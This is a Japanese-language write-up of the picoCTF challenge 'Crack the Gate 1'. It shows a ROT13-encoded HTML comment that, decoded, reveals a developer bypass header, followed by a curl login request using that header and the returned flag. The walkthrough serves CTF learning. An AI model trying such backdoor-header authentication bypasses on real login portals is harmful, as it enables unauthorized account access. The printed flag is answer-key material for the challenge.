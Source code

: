 ## Crack the Gate 1
### 問題文
```
We’re in the middle of an investigation. One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal. We’ve uncovered the email address he uses to log in: ctf-player@picoctf.org. Unfortunately, we don’t know the password, and the usual guessing techniques haven’t worked. But something feels off... it’s almost like the developer left a secret way in. Can you figure it out?
Additional details will be available after launching your challenge instance.
```
### 解き方
1. Webサイトにアクセスし，Htmlを見るとコメントにABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf"と書いてある
2. これをシーザー暗号で解読するとDecrypted text: NOTE: Jack - temporary bypass: use header X-Dev-Access: yesとなる
3. つまり，ヘッダーにX-Dev-Accessを付けてアクセスすればいい
```bash
$curl -X POST "http://amiable-citadel.picoctf.net:64453/login" -H "X-Dev-Access: yes" -H "Content-Type: application/json" -d '{"email":"ctf-player@picoctf.org"}'
```
4. {"success":true,"email":"ctf-player@picoctf.org","firstName":"pico","lastName":"player","flag":"picoCTF{brut4_f0rc4_125f752d}"}このjsonが返ってくるので，ここからフラグを入手できる
5. フラグ picoCTF{brut4_f0rc4_125f752d}